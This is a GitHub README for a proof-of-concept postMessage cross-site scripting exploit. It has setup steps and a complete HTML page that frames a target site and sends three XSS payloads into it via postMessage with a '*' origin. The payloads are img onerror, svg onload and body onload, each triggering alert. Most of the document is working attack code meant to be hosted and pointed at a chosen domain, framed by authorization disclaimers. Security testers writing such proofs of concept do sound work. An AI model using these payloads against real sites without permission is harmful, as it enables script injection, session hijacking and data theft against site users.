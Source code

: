 # PoC for PostMessage XSS

This repository contains a proof-of-concept (PoC) for a potential postMessage-based Cross-Site Scripting (XSS) vulnerability. The script sends various payloads to a target iframe once it is loaded to demonstrate how the vulnerability could be exploited.

## Description

This PoC sends different payloads to an iframe using the `postMessage` API. If the target iframe is vulnerable, the payloads will execute within the context of the iframe's domain, demonstrating an XSS vulnerability.

## Usage

### Prerequisites

- Ensure you have authorization to test the target domain.
- Host the provided HTML file on a server you control.

### Steps

1. Clone the repository:

    ```sh
    git clone https://github.com/yourusername/postmessage-xss-poc.git
    ```

2. Navigate to the repository directory:

    ```sh
    cd postmessage-xss-poc
    ```

3. Open the `index.html` file in a text editor and replace `https://redacted.com` with the actual target URL you have authorization to test.

4. Host the `index.html` file on a web server. You can use a simple HTTP server for this purpose:

    ```sh
    python -m http.server 8000
    ```

5. Open a browser and navigate to `http://localhost:8000`.

6. Observe the payloads being sent to the iframe's content window via `postMessage`. If the target iframe is vulnerable, the JavaScript payloads will execute within the context of the iframe.

## PoC Code

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>PoC for PostMessage XSS</title>
</head>
<body>
    <iframe id="targetFrame" src="https://redacted.com" style="width: 100%; height: 500px;"></iframe>
    <script>
        function sendMessage(payload) {
            var targetWindow = document.getElementById('targetFrame').contentWindow;
            console.log('Sending message:', payload);
            targetWindow.postMessage(payload, "*");
        }

        document.getElementById('targetFrame').onload = function() {
            console.log('Iframe loaded, sending messages');
            sendMessage("<img src=x onerror=alert('XSS')>");
            sendMessage("<svg onload=alert('XSS')>");
            sendMessage("<body onload=alert('XSS')>");
        };

        window.addEventListener('message', function(event) {
            console.log('Received message:', event.data);
        });
    </script>
</body>
</html>


Impact

If successful, an attacker could execute arbitrary JavaScript in the context of the target iframe's domain. This could lead to session hijacking, data theft, or other malicious activities depending on the application's context and functionality.
Disclaimer

Ensure you have explicit permission to test the target domain. Unauthorized testing can lead to legal consequences.
